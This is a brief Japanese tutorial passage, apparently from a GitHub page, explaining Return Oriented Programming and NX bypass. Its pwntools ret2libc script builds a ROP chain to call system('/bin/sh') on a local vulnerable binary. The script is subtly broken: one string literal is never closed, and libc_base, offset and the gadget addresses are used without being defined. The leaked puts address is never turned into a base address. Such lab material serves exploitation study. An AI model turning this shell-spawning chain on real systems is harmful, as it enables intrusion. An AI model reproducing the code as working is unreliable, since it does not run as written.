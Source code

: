 # ROP(Return Oriented Programming)
NX(No eXecute)によってスタック上のシェルコードが実行できない場合、既存のコード片(ガジェット)をつないで任意の処理を実行。
</br>
libcの関数(system, execve, read, write)を呼び出すROPチェーンを構築

## 実践例ret2libc攻撃
```python
from pwn import *
elf = ELF('./vuln')
libc = ELF('./libc.so.6)
p = process('./vuln')

# 漏洩されたputsアドレスからlibcベースを計算

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# ROPチェーンでsystem("/bin/sh")を呼び出す

payload = b'A' * offset + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendline(payload)
```
